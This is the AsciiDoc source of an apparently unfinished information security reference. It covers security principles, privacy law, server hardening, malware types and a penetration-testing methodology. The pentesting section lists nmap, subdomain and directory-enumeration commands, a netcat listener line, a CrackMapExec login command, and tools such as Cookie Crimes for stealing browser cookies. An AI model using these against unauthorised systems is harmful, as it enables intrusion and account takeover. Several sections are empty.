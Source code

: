 = Information Security - A Comprehensive Reference
Doc Writer <shahid.sharif@securityprivacyrisk.com>
v1.21.08.08.01
:numbered:
:sectnum:
:sectnumlevels: 5
:chapter-label:
:toc: right
:toclevels: 5
:docinfo:
:docinfo1:
:docinfo2:
:description: This document covers all aspects of information security
:keywords: information security, cyber security, it security, data security, compliance, risk management, project management
:imagesdir: images
:stylesheet:
:homepage: https://www.secunoid.com
'''


<<<
== Overview
Everything in this world is centered around information, knowledge, which translates into a generic term _data_.  This data can be about individuals, places, or things.  Regardless of who or what it is about it is important to protect it.

There exists approximately 4,294,967,296 (four billion two hundred ninety-four million nine hundred sixty-seven thousand to hundred ninety-six) IPv4 Addresses.  This pool is 32-bits in size.  Scanning these addresses is an embarrassingly parallel workload and ca be easily distributed over any number of systems.  The term embarrassingly parallel simply means that little or no effort is needed to seperate this problem into a number of parallel tasks.  Password cracking and 3d video rendering are also examples o this type of problem.

=== Non-living Entities
Data about non living entities when modified leads to mis-information and currently in the digital age our ability to provide the authenticity of that data is very difficult.  If the source is trustworthy, then we deem it authentic, currently there are no mechanisms to ensure that the data has not been modified in between from when the trustworthy source released and to the time it got to you.

=== Living Entities
Data about living entities, especially us humans is very valuable.  With the devices we carry, and use in our daily lives, we are constantly producing data, every hour, every second of our lives. 

<<<
== What is information security?
The foundation of information security is based on three pillars also known as the *triad*

. Confidentiality
. Integrity
. Availability

== Why are they important?
What is the the topic of discussion, *Information Security* , there two key words here *information* and *security*, viz a viz securing information.

You have to condition yourself to always think about what protecting,  the *information*.  Once you get this concept the rest is easy.

Then think of how does this information move in the environment.  Information of any type goes through follwoing lifecycle stages, also knows as CRUD:

. Create
. Read
. Update
. Delete


The sections below will build upon them.

=== Confidentiality
NIST defines "Confidentiality" as Preserving authorized restrictions on information access and disclosure, including means for protecting personal privacy and proprietary information.

=== Integrity
NIST defines "Integrity" as Guarding against improper information modification or destruction, and includes ensuring information non-repudiation and authenticity.

=== Availability
NIST devines "Availability" as Ensuring timely and reliable access to and use of information.


<<<
== Privacy
Centralization has very damaging impacts to a users privacy.  Once the user has provided their information to an entity, they are at entities' mercy for data protection.

Certain states want to keep 

Data that is being processed by the solution should care fully considered for:

. Data protection: Based on data classification ensure data is protected in storage and in transit.
. Data retention: Based on regulatory, and industry requirements,  data should be retained for 
. Data access & update: Allow end users ability to access their data and modify it as required.

Governments across the world are responding to the global cyber security crisis by creating new regulations that govern the way companies handle and store valuable consumer data. This includes important information such as personal identifications, banking and credit card numbers, and purchase history.

The European Union, in particular, has been a leader in this field. One of its pioneering efforts is the General Data Protection Regulations (GDPR) what was passed in 2016 and went into effect in Spring 2018. It impacts all companies that do business with European customers, regardless of where the company is located.

The GDPR requires that companies receive consent from consumers before processing data, collect and store data anonymously, and notify customers when their information has potentially been breached. It also requires large businesses to appoint a data privacy protection officer to oversee implementation of the regulations.

Furthermore, while the U.S. federal government has yet to create a set of strong data privacy protections, several states have drawn up their legislation, including Hawaii, Massachusetts, Maryland, Mississippi, New Mexico, and Washington.

However, the most important of these regulations come from California, the largest state in the country by population with nearly 40 million residents. The California Consumer Privacy Act (CCPA) goes into effect on January 1, 2020, and governs the way companies must store and secure data.

CCPA allows consumers to demand crucial information about their personal data held by corporations.

When requested, businesses must inform consumers about the type of personal data they possess, provide them with specific personal information collected in the previous year, and allow customers to request that their information not be shared with third parties. Companies will also have to delete customer data when requested.



<<<
== Data Protection

=== Methodology
. Define what to classify
. Define where to classify
. Define who applies classification
. Define conditions
. Assign labels to users and groups
. Define Access rights
. Create classification policies
. Test Classification policies
. Deploy classification policies
. Monitor and accelerate remediation

=== Know your data
. Where is my sensitive data 
located? 
. What are the risky activities happening in my organization – files shared externally, across 1st and 3rd party apps?
. I need to comply with a new regulation? Where is my PII data located & where is it being generated? 
. How do I control data sprawl and build a strategy for ROT before I bring data
. How do I see activity around classification and labeling across retention and sensitivity labels once they have been used across governance and retention outcomes?
. How do I monitor  ongoing risk around label activity?


=== Password Strength
Brute force password cracking - the importance of using a long password with a mix of uppercase, lowercase and special characters.

Assuming an attacker has a reasonably fast connection and PC, the table is an estimate of the amount of time it would take to generate every possible combination of passwords for a given number of characters. After generating the list it's just a matter of time before the computer runs through all the possibilities – or gets shut down trying.

Pay particular attention to the difference between using only lowercase characters and using all possible characters (uppercase, lowercase, and special characters – like @#$%^&*). Adding just one capital letter and one asterisk would change the processing time for an 8 character password from 2.4 days to 2.1 centuries.

via Dan Williams (https://www.linkedin.com/in/ACoAAACDV6ABaDOtrduFQ5p-c5qgSka1HHTseAY/?lipi=urn%3Ali%3Apage%3Ad_flagship3_feed%3BxdsE5HnqTDulyw2QOn9mCw%3D%3D)

image::PasswordLengthComplexityCrackingTime.jpg[]

<<<
== Information Security 
Information Security as you can infer, all about information protection.  Before the advent of internet information was stored in corporate data centers and they had mechanisms in place to protect the information.  The two main areas that are focused are logical and technical security.

=== Logical Security
Logical controls are about physical aspects of the information protection.  The computer system is housed in a building in a particular area.  Depending on the sensitivity of the information various mechanisms are put in place like:

* Fenced building perimeter
* Gates at the entry and exit points
* Guards manning those gates to ensure that only authorized individuals are allowed through the gates

Now working through the layers just like peeling an onion. You have gone through the first layer the perimeter. Now once in the perimeter it has to be ensured:

* Ensuring protections are in place to prevent vehicles damaging the building via direct impacts
* Split the building into zones with different levels of access levels for the personnel and this can be gated & guarded area
* Ensure computer room is in the middle of the building without any window access
* The computer room can be split into zones depending on the sensitivity of the information
* Access to these zones can be gated and guarded
* Assets within these zone would be placed in cabinets that are again secured via lock and key

=== Technical Security
Now that we have addressed the physical security aspects Once inside the computer room, this is where information security starts to take shape.  All the computers in the computer room will need to be accessed by the users.  People with different levels of access would be physically separated into specific areas.  For instance Super users were in a different physical space than regular users.

With the advent of networking,TCP/IP, and better access control mechanisms in operating systems that requirement to physically segregate users started to diminish.

That requirement to physically segregate users with different levels of access via gates and guards moved to the network and operating system level and this is where information security started to take a foot hold.

Applications that operated on top of the operating system implemented fine grained access mechanisms for the users.

The gates and guards started getting replaced by electronic locks with pin pads and cameras.  Whereby to prove that you were authorized to access an area, you would have the PIN to the door which you would use to get access.  

The PIN pads later got replaced by card access, where you had to scan your card to enter an area.

As you can see a lot of Physical Security controls are also moving into information security space whereby the cameras that are recording and the recording management software, the card access system and access management are all managed by applications that are operating on top of an operating system running on a computer system.

Enter Information Security, which at the most fundamental level is the basis for:

* Information Technology Security
* System Security
**  Network Security
**  Application Security
*** Database Security
* Cyber Security

This book will cover the various aspects of implementing an Information Security Program at an organization of any size. You don't have to be a huge organization to have an information security program.  If you are in business you are collecting, storing, and transmitting all kinds of information and it important that you know how to ensure that information is protected at all times.  If it is not then maybe your business might be at risk.

<<<
== Organizational Structure
You can have the best security organization, however, if you do not have security embedded in Project Delivery, Vendor Management, Change Management, and Operations then it becomes to enforce security.


<<<	
=== Security Organization
For Security to be taken seriously a security organization is mandatory, while the non operational team would report to the CISO, the operational structure can be based on two models:

* Centralized
* Distributed

In centralized operational model, all aspects of security operations are within the security organization, such as:

* User provisioning/de-provisioning
* Security Information & Event Management (SIEM)
* Security Operations Center
* Incident Response
* Firewall & Network Operations

In a decentralized operations model, the above aspects are managed by different business units with the security organization providing oversight in form of GRC.

==== Security Operations
A robust mechanism must be instituted to ensure all systems are baselined and any deviation from the baseline is reported to the SOC  for action.
All critical components must be monitored at all times, and SIEM   leveraged to discover anomalies and ensure they are addressed in a timely fashion.

==== Security Architecture

==== Security Development

==== Security Strategy

<<<
=== Project Management Office (PMO)
PMO sets standards for how projects are managed and to monitor their progress.

* Define standards and rules for project management
* Monitor and approve projects
* Improve the success rate of projects
* Provide training around project management methodologies and standards
* Create relevant documentation and templates

Reasons for having a PMO:

* Ensure compliance with business strategy. The reason why companies run projects is because they need to innovate. They must constantly create new products or services so they won’t end up as the next Kodak. Once you understand this, you understand why having projects succeed is so important. A PMO can act as a watchdog for ensuring projects actually deliver business value.
* Improve overall project success rate. If many of the projects in your company fail, exceed their budget or get delayed, then that’s a good reason for having a PMO.
* Set common standards. If every department has their own set of templates and follows their own project methodology, this can make it hard for cross-functional projects to succeed. A PMO can define common standards that departments have to follow.
* Security, Compliance, and Industry requirements are considered.

There are key roles every project needs, and PMO has to ensure that those roles exist in the organization.

==== Organizational Structure
Following organizational structures have been put togther for illustrative purposes, and can be modified as long as the segegration of duty and deliverables are maintained.

===== Centralized

image::PMOStructure-Centralized.png[]

===== De-Centralized

image::PMOStructure-DeCentralized.png[]

==== Key Organizational Roles

===== Product Owner 

* Sits in the business hierarchy
* Translates business requirements into how the product will operate within the organization
* Product creation, operationalization, and ongoing evolutionevolution
* Maintains the product lifecycle
* Understands roles of everty department in the organization as it pertains to operating and maintaining the product
* Ultimate decision maker on behalf of the business

===== Business Analyst

“Business analysis is the practice of enabling change in an enterprise by defining needs and recommending solutions that deliver value to stakeholders”

* Consult with management, staff and customers on how work is done in an organization
* Design solutions to improve organizational efficiency and productivity
* Write functional requiremnets using models and diagrams
* Communicate with internal colleagues to understand the needs of departments and the ogranization as a whole
* Work with external stakeholders to understand and investigate feedback into the service/function/product provided
* Use data modeling practises to analyse findings and create suggestions for strategic and operational improvements and changes
* Product end to end process maps to for the entire lifecycle of the product
* Good understanding of flowcharting specifically Business Process Modeling Notation (BPMN)

===== Systems Analyst

* Ability to understand translate BPMN diagrams to system level flow diagrams
* Identify, understand and plan for organizational and human impacts of planned systems, and ensure that new technical requirements are properly integrated with existing processes and skill sets.
* Plan a system flow from the ground up.
* Interact with internal users and customers to learn and document requirements that are then used to produce business required documents.
* Write technical requirements from a critical phase.
* Interact with software architects to understand software limitations.
* Help programmers during system development, e.g. provide use cases, flowcharts, UML and BPMN diagrams.
* Document requirements or contribute to user manuals.
* Whenever a development process is conducted, the system analyst is responsible for designing components and providing that information to the developer.
* Identify Impacted Systems and required configuration changes

===== Security Architect

* Enssure Information Security Policy is being adered to
* Information protection mechanisms are considered in the design
* Security Monitoring 
* Incident Response
* Data Retention
* Security Testing

===== Infrastructure Architect

* Identify Network, Server, Storage, & Monitoring Requirements
* Create Network, Server, Storage, & Monitoring Designs
* Create Network, Server, Storage, & Monitoring Implementation Plans
* Capacity Planning
* Infrastructure Resiliency Planning, Designing, and Implementation



== Security Policy
Before any solution is implemented, a security policy must be created to ensure all the industry, regulatory,  and other compliance requirements are documented.  This document will provide the security requirements to ensure the deployment is secure. All the requirements should be very high level without delving into implementation details.

<<<
== Security Manual
This document goes into details on the how the security policy requirements must be implemented.  It can be one document, or multiple depending on the size of implementation.

<<<
== Security Standards
Standards are mandatory requirements that must be adhered to. Some of the standards to be considered are:

=== Windows Web Server Hardening

*Services*

* Unnecessary Windows services are disabled.
* Services are running with least-privileged accounts.
* FTP, SMTP, and NNTP services are disabled if they are not required.
* Telnet service is disabled.

*Protocols*

* WebDAV is disabled if not used by the application OR it is secured if it is required.
* TCP/IP stack is hardened
* NetBIOS and SMB are disabled (closes ports 137, 138, 139, and 445).

*Accounts*

* Unused accounts are removed from the server.
* Guest account is disabled.
* IUSR_MACHINE account is disabled if it is not used by the application.
* If your applications require anonymous access, a custom least-privileged anonymous account is created.
* The anonymous account does not have write access to Web content directories and cannot execute command-line tools.
Strong account and password policies are enforced for the server.
* Remote logons are restricted. (The “Access this computer from the network” user-right is removed from the Everyone group.)
* Accounts are not shared among administrators.
* Null sessions (anonymous logons) are disabled.
* Approval is required for account delegation.
* Users and administrators do not share accounts.
* No more than two accounts exist in the Administrators group.
* Administrators are required to log on locally OR the remote administration solution is secure.

*Files and Directories*

* Files and directories are contained on NTFS volumes
Web site content is located on a non-system NTFS volume.
* Log files are located on a non-system NTFS volume and not on the same volume where the Web site content resides.
* The Everyone group is restricted (no access to \WINNT\system32 or Web directories).
* Web site root directory has denied write ACE for anonymous Internet accounts.
* Content directories have deny write ACE for anonymous Internet accounts.
* Remote  administration application is removed
* Resource kit tools, utilities, and SDKs are removed.
* Sample applications are removed

*Shares*

* All unnecessary shares are removed (including default administration shares).
* Access to required shares is restricted (the Everyone group does not have access).
* Administrative shares (C$ and Admin$) are removed if they are not required (Microsoft Management Server (SMS) and Microsoft Operations Manager (MOM) require these shares).

*Ports*

* Internet-facing interfaces are restricted to port 80 (and 443 if SSL is used)
* Intranet traffic is encrypted (for example, with SSL) or restricted if you do not have a secure data center infrastructure.

*Registry*

* Remote registry access is restricted.
* SAM is secured (HKLM\System\CurrentControlSet\Control\LSA\NoLMHash).

*Auditing and Logging*

* Failed logon attempts are audited.
* IIS log files are relocated and secured.
* Log files are configured with an appropriate size depending on the application security requirement.
* Log files are regularly archived and analyzed.
* Access to the Metabase.bin file is audited.
* IIS is configured for W3C Extended log file format auditing.

*Server Certificates*

* Ensure certificate date ranges are valid.
* Only use certificates for their intended purpose (For example, the server certificate is not used for e-mail).
* Ensure the certificate’s public key is valid, all the way to a trusted root authority.
* Confirm that the certificate has not been revoked.

<<<
== Security Guidelines

<<<
== Cryptography

Cryptographic Blinding

<<<
== Digital Identity

Digital Identity is a bridge that connects the physical and the digital world.  You can call them Personna's in a digital world.

Cost of financial intermediation is been going up due to regulation.

According to Europol we are spending about $20b to intercept 0.15% of the fraudulent flows of money.

<<<
== Training & Education

=== Phishing

==== GoPhish
An opensource toolkit to generate phishing campaigns for organizations to test their employee phishing knowledge
Link: https://github.com/gophish/gophish/releases/


<<<
== Application Security
The scope of application security would be the 


=== Code Analysis

==== Microsoft Application Inspector
Microsoft Application Inspector is a software source code analysis tool that helps identify and surface well-known features and other interesting characteristics of source code to aid in determining what the software is or what it does. It has received attention on ZDNet, SecurityWeek, CSOOnline, Linux.com/news, HelpNetSecurity, Twitter and more and was first featured on Microsoft.com.

Application Inspector is different from traditional static analysis tools in that it doesn't attempt to identify "good" or "bad" patterns; it simply reports what it finds against a set of over 400 rule patterns for feature detection including features that impact security such as the use of cryptography and more. This can be extremely helpful in reducing the time needed to determine what Open Source or other components do by examining the source directly rather than trusting to limited documentation or recommendations.

The tool supports scanning various programming languages including C, C++, C#, Java, JavaScript, HTML, Python, Objective-C, Go, Ruby, PowerShell and more and can scan projects with mixed langauge files. It also includes HTML, JSON and text output formats
Link: https://github.com/microsoft/ApplicationInspector

==== PEpper
An open source tool to perform malware static analysis on Portable Executable
Link: https://github.com/Th3Hurrican3/PEpper


=== Key Management

<<<
== System Security
All the servers that the distributed ledger platform runs on must be:

. Hardened
. Monitored for availability
. Intrusion Detection/Intrusion Protection mechanisms deployed to protect from attacks coupled with SIEM for proactive defense.
. Based on the security be in a DMZ 

<<<
== Vulnerability Management Program
Red team-blue team exercises take their name from their military antecedents. The idea is simple: One group of security pros — a red team — attacks something, and an opposing group — the blue team — defends it. Originally, the exercises were used by the military to test force-readiness.

=== Deep vs Dark Web
Dark web is every resource where hackers & criminal underground engage with each other.  Tor is a mechanism that is used as a transport for the dark web.

image::DeepWebDarkWeb.jpeg[]

Source: https://heimdalsecurity.com/blog/deep-web-vs-dark-web-what-is-each/ 


=== Pastebin

=== Taxonomy
Taxonomy is important as it ensures industry standard terms are used when talking about vulnerabilities, threat actors, and reporting.

==== Attacks

image::TypesOfAttacks.jpg[]

===== Social Engineering Attacks
* *Phishing* The perpatrator send an email or text to the target, seeking valuable information

* *Vishing* The perpatrator makes a fradulent phone calls to the target, seeking valuable information

* *Baiting* Baiting attacks use a false promise to pique a victims's curiosity.  They lure users into a trap that steals their personal information.

* *Quid pro quo* The perpatratpr makes random calls to a company's employees offering a service or a benefit in exchange for information or access

* *Pretexting* It is often initiated by a perpatrator pretending to need sensitive information from a victim so as to perform a critical task.  The success rate of this attack heavily depends on the attackers ability to build trust.

* *Watering Hole* The perpetrator injects malicious code into the web pages that the targets visit.  Once a victim visits the page on the compromised website, a backdoor Trojan is installed on thier computer.

==== Malware
A malware is any piece of software that was written with the intent of damaging devices, stealing data, and generally causing a mess. Viruses, Trojans, spyware, and ransomware are among the different kinds of malware.

Malware is often created by teams of hackers: usually, they’re just looking to make money, either by spreading the malware themselves or selling it to the highest bidder on the Dark Web. However, there can be other reasons for creating malware too — it can be used as a tool for protest, a way to test security, or even as weapons of war between governments.

image::TypesOfMalware.jpg[]

* *Adware* Though not always malicious in nature, aggressive advertising software can undermine your security just to serve you ads — which can give other malware an easy way in. Plus, let’s face it: pop-ups are really annoying.

* *Bots* Bots is a soft for roBot. Bots are usually controlled remotely and work as a network.

* *Keylogger* It is one of the most dangerous threats to a PC user's privacy. This type of malware installs itself as a result of clicking while browsing the Internet or downloading software. Keyloggers keep track of all of your keystrokes when you are using your PC and then transfers the information to a remote server. It is capable of recording all of your online conversations, emails, and password logins, as well as creating screenshots of all of your PC activity.

Keyloggers are not always in the form of malware or software; it can also be installed on your computer in the form of hardware through being placed between the plug on your keyboard and the entry port. Some keyloggers are legitimate applications such as those that record an employee's PC activity during work hours. Other keyloggers are in the form of malicious software that is designed to perform criminal activity.

* *Ransomware* This kind of malware typically locks down your computer and your files, and threatens to erase everything unless you pay a ransom.

* *Remote Access*

* *Rootkit*

* *Spyware* No surprise here — spyware is malware designed to spy on you. It hides in the background and takes notes on what you do online, including your passwords, credit card numbers, surfing habits, and more.

* *Trojans* This kind of malware disguises itself as legitimate software, or is hidden in legitimate software that has been tampered with. It tends to act discreetly and create backdoors in your security to let other malware in.

* *Virus* Like their biological namesakes, viruses attach themselves to clean files and infect other clean files. They can spread uncontrollably, damaging a system’s core functionality and deleting or corrupting files. They usually appear as an executable file (.exe)

* *Worm* Worms infect entire networks of devices, either local or across the internet, by using network interfaces. It uses each consecutively infected machine to infect others.

=== Vulnerability Assessment
Vulnerability Assessment is designed to find vulnerabilities and assess to ensure they are not false positives. The next step is to remediate the vulnerability by patching the system, reconfiguring it, or implementing other controls to reduce the risk. 

=== Penetration Testing
Penetration testing, or pen testing for short, is an authorized attack against your computer system to discover and exploit vulnerabilities.  This activity is also known as ethical hacking.  

Penetration testing is a technical control that is implemented to ensure the systems that are currently in production or are going to be production do not have any vulnerabilities that would allow threat vectors to exploit.

The Penetration Testing Execution Standard (PTES) provides the necessary guidelines on how to conduct penetration testing.  More information can be found here: http://www.pentest-standard.org/index.php/Main_Page 

Penetration Testing goes further than vulnerability assessment.  After a vulnerability is identified, the tester attempts to exploit a vulnerability. This can be done numerous ways and, once a vulnerability is exploited, a good tester will not stop. They will continue to find and exploit other vulnerabilities, chaining attacks together, to reach their goal. Each organization is different, so this goal may change, but usually includes access to Personally Identifiable Information (PII), Protected Health Information (PHI), and trade secrets. Sometimes this requires Domain Administrator access; often it does not or Domain Administrator is not enough.

Penetration testing involves following steps:
. Reconnaissance via open source intelligence (OSINT) gathering techniques.  IT does not involve probing any or your devices, but gathering as much information publicly available about your environment using internet sources. 
. Scanning your network to identify active devices
. Fingerprint active devices to identify operating system and applications installed
. Find vulnerabilities for the services running on your systems
. Exploiting those vulnerabilities
. Once the vulnerability has been exploited, further probing the system to seek valuable information such as PII (Personally Identifiable Information) etc.
. Try to further explore other systems on the network and exploit them if possible.
. Produce a report that identifies vulnerabilities, which ones were exploited, what was the outcome of exploitation and suggest high level remediation steps.

There are three approaches to Penetration Tests:
. Black Box: No knowledge of th infrastructure.
. White Box: Full knowledge of the infrastructure.
. Grey Box: Some knowledge of the infrastructure.

Penetration Tests can include following scopes:
. External
. Internal
. Web application
. Wireless
. Cloud
. Social

==== Penetration Testing Methodology

===== Reconnaissance
. Open Source Intelligence Gathering
.. Look for sub-domains:

	sublist3r -d <domainname> -t3 -o <filename.txt>

.. Look for sub-domains, users, etc:

	theharvester -d <domainname> -b all -f <outputfilename>

. Discovery Scan

	nmap -sC -sV -oA foldername/filename IPAddress
	nmap -sC -sV -oA foldername/filename -iL <inputfilename>

. Recon scan all ports
	
	nmap -p- -v -oA foldername/filename-allports IPAddress

. If webservers are found perform web server enumeration:

	dirb -d <domainname> 
	gobuster 

. Take notes of all the findings and also include screen captures.
. 

==== Penetration Testing Tools
Following are some of the Pentesting tools organized by a particular stage in my pentesting methodology.

===== Documentation
==== CherryTree
Chery Tree is a note taking app

===== Open Source Intelligence (OSINT)

====== Search Engines

image::SearchEnginesForSecurityProfessionals.jpg[Best Search Engines for Security Professionals and Pen Testers] 

====== Katana
https://github.com/adnane-X-tebbaa/Katana[Katana-ds] (ds for dork_scanner) is a simple python tool that automates Google Hacking/Dorking and support Tor
It becomes a more powerfull in combination with https://www.exploit-db.com/google-hacking-database[GHDB]

====== Metabigor
Metabigor is Intelligence tool, its goal is to do OSINT tasks and more but without any API key.

Link: https://www.kitploit.com/2020/02/metabigor-intelligence-tool-but-without.html

====== Maltego

====== Maryam
OWASP Maryam is an Open-source intelligence(OSINT) and Web-based Footprinting modular framework BASED on The Recon-ng and written in Python.
Link: https://www.owasp.org/index.php/OWASP_Maryam_Project 

====== OSI.IG
https://github.com/th3unkn0n/osi.ig [Instagram OSINT Tool] gets a range of information from an Instagram account that you normally wouldn't be able to get from just looking at their profile

The information includes:

* [ profile ] : user id, followers / following, number of uploads, profile img URL, business enum, external URL, joined Recently, etc
* [ tags & mentions ] : most used hashtags and mentioned accounts
* [ email ] : if any email is used any where it'll be displayed
* [ posts ] : accessability caption, location, timestamp, caption, picture url, etc

====== Recon_Spider
https://github.com/Aravindha1234u/Recon_Spider[Recon_Spider] scrapes social media account details from Instagram, Facebook and Twitter. It can find details about Phone number, Email data Breach.
Domain module has various scans for domain check for vulnerability and spider crawlers
Metadata Analyser
Reverse Image Search
IP Heatmap generator
Mac Address finder of manufacturer
IP2Proxy checks whether provided ip uses any kind of Proxy/VPN if any then check for DNSLeaks
Torrent Download History
Tool is currently available only in Command Line Interface (CLI)

Its public to use with your own api keys

====== Shodan
. Shodan is a search engine for devices connected to internet

===== Footprinting

====== Bloodhound
https://github.com/BloodHoundAD/Bloodhound/wiki[BloodHound] is a single page Javascript web application, built on top of Linkurious, compiled with Electron, with a Neo4j database fed by a PowerShell/C# ingestor.

BloodHound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment. Attacks can use BloodHound to easily identify highly complex attack paths that would otherwise be impossible to quickly identify. Defenders can use BloodHound to identify and eliminate those same attack paths. Both blue and red teams can use BloodHound to easily gain a deeper understanding of privilege relationships in an Active Directory environment.

BloodHound is developed by @_wald0, @CptJesus, and @harmj0y.


====== Masscan
https://github.com/robertdavidgraham/masscan[MASSCAN] is an Internet-scale port scanner. It can scan the entire Internet in under 6 minutes, transmitting 10 million packets per second, from a single machine.

It's input/output is similar to nmap, the most famous port scanner. When in doubt, try one of those features.

Internally, it uses asynchronous transmissions, similar to port scanners like scanrand, unicornscan, and ZMap. It's more flexible, allowing arbitrary port and address ranges.

NOTE: masscan uses a its own custom TCP/IP stack. Anything other than simple port scans may cause conflict with the local TCP/IP stack. This means you need to either the --src-ip option to run from a different IP address, or use --src-port to configure which source ports masscan uses, then also configure the internal firewall (like pf or iptables) to firewall those ports from the rest of the operating system.

====== NESSUS

http://www.hackandtinker.net/2013/10/16/how-to-install-setup-and-use-nessus-on-kali/[Install Instructions]

====== NMAP

====== DIRB

DIRB is a Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by launching a dictionary based attack against a web server and analyzing the response.

DIRB comes with a set of pre-configured attack wordlists for easy usage but you can use your custom wordlists. Also DIRB sometimes can be used as a classic CGI scanner, but remember is a content scanner not a vulnerability scanner.

DIRB main purpose is to help in professional web application auditing. Specially in security related testing. It covers some holes not covered by classic web vulnerability scanners. DIRB looks for specific web objects that other generic CGI scanners can’t look for. It doesn’t search vulnerabilities nor does it look for web contents that can be vulnerable.

Source: http://dirb.sourceforge.net/about.html
DIRB Homepage | Kali DIRB Repo

Author: The Dark Raver
License: GPLv2

https://tools.kali.org/web-applications/dirb 

====== Dirbuster

===== Reconnaissance
Combining the information gathered from OSINT and Footprinting activities.  This leads to finding vulnerabilities, exploiting them, lateral movement, persistence.

====== Admin-scanner
https://github.com/alienwhatever/Admin-Scanner[Admin-Scanner] - This Tool Is Design To Find Admin Panel Of Any Website By Using Custom Wordlist Or Default Wordlist Easily

===== Payload Delivery



====== Cryptcat
https://tools.kali.org/maintaining-access/cryptcat[CryptCat] is a simple Unix utility which reads and writes data across network connections, using TCP or UDP protocol while encrypting the data being transmitted. It is designed to be a reliable “back-end” tool that can be used directly or easily driven by other programs and scripts. At the same time, it is a feature-rich network debugging and exploration tool, since it can create almost any kind of connection you would need and has several interesting built-in capabilities.

===== Netcat

nc -lvnp 9001

===== Exploitation

====== Arpspoof

====== Burp Suite
Burp Suite is a web application testing tool

Use vulnerable web application from the OWASP site: https://www.owasp.org/index.php/OWASP_Vulnerable_Web_Applications_Directory_Project/Pages/Offline  

====== Cookie Crimes

If you steal someone’s Chrome cookies, you can log in to their accounts on every website they’re logged in to.

Normally you need the user’s password to do it, but I found a way to do it without the password. You just need to be able to execute code on their computer. It works by using Chrome’s Remote Debugging Protocol.

Link: https://github.com/defaultnamehere/cookie_crimes

===== Post-Exploitation

====== Crackmapexec
CrackMapExec (a.k.a CME) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks. Built with stealth in mind, CME follows the concept of "Living off the Land": abusing built-in Active Directory features/protocols to achieve it's functionality and allowing it to evade most endpoint protection/IDS/IPS solutions.

Link: https://github.com/byt3bl33d3r/CrackMapExec

Usage:
	crackmapexec smb <IP Of Domain Controller> -u <username> -p '<password>'

====== PoshC2
https://www.hackingarticles.in/command-control-poshc2/[PoshC2] is an open-source remote administration and post-exploitation framework that is publicly available on GitHub. The server-side components of the tool are primarily written in Python, while the implants are written in PowerShell. Although PoshC2 primarily focuses on Windows implantation, it does contain a basic Python dropper for Linux/macOS.


===== Lateral Movement

===== Persistence

===== Chisel





===== DNSCAT
